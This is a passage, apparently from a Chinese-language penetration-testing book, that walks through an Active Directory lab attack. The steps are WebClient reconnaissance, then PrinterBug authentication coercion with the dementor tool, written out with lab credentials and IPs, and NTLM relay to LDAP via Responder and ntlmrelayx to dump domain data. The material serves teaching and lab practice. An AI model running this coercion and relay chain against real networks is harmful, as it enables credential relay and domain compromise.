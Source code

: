 ![图 5.10 – WebClient 服务侦查](img/B18964_05_10.jpg)

图 5.10 – WebClient 服务侦查

下一步是使用强制方法触发通过 HTTP 向我们的 Kali 机器进行认证，然后将其中继到 LDAP。我们将需要一个禁用 HTTP 服务器的 Responder 和 `ntlmrelayx`：

```
python3 dementor.py -u arya.stark -d north.sevenkingdoms.local -p Needle 192.168.56.100 192.168.56.22
```

在本次练习中，我选择了 PrinterBug 作为强制方法，并通过名为 `dementor`[10] 的工具在 Linux 上实现。以下截图显示了转储域信息的结果：

![图 5.11 – 域枚举 LDAP](img/B18964_05_11.jpg)
